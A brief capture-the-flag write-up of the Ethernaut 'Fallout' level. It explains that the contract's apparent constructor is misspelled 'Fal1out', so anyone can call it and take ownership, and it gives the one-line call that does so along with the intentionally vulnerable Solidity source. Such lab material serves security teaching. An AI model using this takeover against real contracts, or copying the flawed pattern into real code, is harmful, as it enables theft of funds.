 This is a very simple level. 
The only we need to pay attention is the name of the seemingly `constructor Fallout` but actually
it is not the constructor. 
Its name is `Fal1out` with `1` rather than `l`.

This is my solution:

````
await contract.Fal1out({from: player, value: toWei(0.00005)})
````

````
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
````
